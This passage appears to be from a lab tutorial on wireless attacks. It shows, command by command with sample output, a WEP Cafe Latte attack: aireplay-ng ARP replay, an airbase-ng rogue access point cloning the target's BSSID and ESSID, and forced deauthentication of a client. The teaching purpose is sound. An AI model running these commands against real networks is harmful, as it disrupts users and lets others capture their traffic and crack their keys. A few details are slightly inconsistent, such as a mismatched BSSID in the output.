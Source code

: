 ```shell

```

In a second terminal, we can start the `Cafe Latte` attack using `aireplay-ng`. We specify the Cafe Latte attack mode with `-6`, the BSSID of the target AP with `-b`, and the client MAC address with `-h`. This will listen for a station to connect, and replay any captured ARP requests to the client.

```shell
aireplay-ng -6 -D -b B2:D1:AC:E1:21:D1 -h B6:1F:98:CB:10:78 wlan0mon

The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
        ifconfig wlan0mon hw ether B6:1F:98:CB:10:78
Saving ARP requests in replay_arp-0806-094956.cap
You should also start airodump-ng to capture replies.
Read 99 packets (got 0 ARP requests), sent 0 packets...

```

Once the Cafe Latte listener is running, the next step is to launch a fake access point in a third terminal. The ESSID and BSSID of this access point must match those of the target network to deceive deauthenticated clients into reconnecting and sharing their ARP requests. The `airbase-ng` tool is used to create this fake access point, with identical BSSID and ESSID to the target, operating on the same channel. Use the `-a` flag to specify the BSSID of the target AP, `-e` to set the ESSID, `-c` to select the channel, `-L` to initiate the Cafe Latte attack mode, and `-W 1` to enable WEP mode. For a complete list of command options and arguments for `airbase-ng`, refer to the documentation [here](https://www.aircrack-ng.org/doku.php?id=airbase-ng).

```shell
airbase-ng -c 1 -a B2:D1:AC:E1:21:D1  -e "HackTheWifi" wlan0mon -W 1 -L

09:50:40  Created tap interface at0
09:50:40  Trying to set MTU on at0 to 1500
09:50:40  Trying to set MTU on wlan0mon to 1800
09:50:40  Access Point with BSSID B2:D1:AC:E1:21:D1 started.

```

This will listen for a station to connect and replay any captured ARP requests to the client. This setup will deauthenticate deauthenticated clients into reconnecting to our network, allowing us to capture their ARP requests for further analysis and attack.

Once our access point is up, we can deauthenticate the station in a fourth terminal using `aireplay-ng` to force the clients to reconnect to our fake access point.

```shell
aireplay-ng -0 10 -a B2:D1:AC:E1:21:D1 -c B6:1F:98:CB:10:78  wlan0mon

09:51:22  Waiting for beacon frame (BSSID: D8:D6:3D:EB:29:D5) on channel 1
09:51:23  Sending 64 directed DeAuth (code 7). STMAC: [B6:1F:98:CB:10:78] [ 0| 0 ACKs]
09:51:24  Sending 64 directed DeAuth (code 7). STMAC: [B6:1F:98:CB:10:78] [ 0| 0 ACKs]
09:51:25  Sending 64 directed DeAuth (code 7). STMAC: [B6:1F:98:CB:10:78] [ 0| 0 ACKs]
09:51:27  Sending 64 directed DeAuth (code 7). STMAC: [B6:1F:98:CB:10:78] [ 0| 0 ACKs]
09:51:29  Sending 64 directed DeAuth (code 7). STMAC: [B6:1F:98:CB:10:78] [ 0| 0 ACKs]
09:51:30  Sending 64 directed DeAuth (code 7). STMAC: [B6:1F:98:CB:10:78] [ 0| 0 ACKs]
09:51:31  Sending 64 directed DeAuth (code 7). STMAC: [B6:1F:98:CB:10:78] [ 0| 0 ACKs]
09:51:32  Sending 64 directed DeAuth (code 7). STMAC: [B6:1F:98:CB:10:78] [ 0| 0 ACKs]
09:51:34  Sending 64 directed DeAuth (code 7). STMAC: [B6:1F:98:CB:10:78] [ 0| 0 ACKs]
09:51:35  Sending 64 directed DeAuth (code 7). STMAC: [B6:1F:98:CB:10:78] [ 0| 0 ACKs]

```
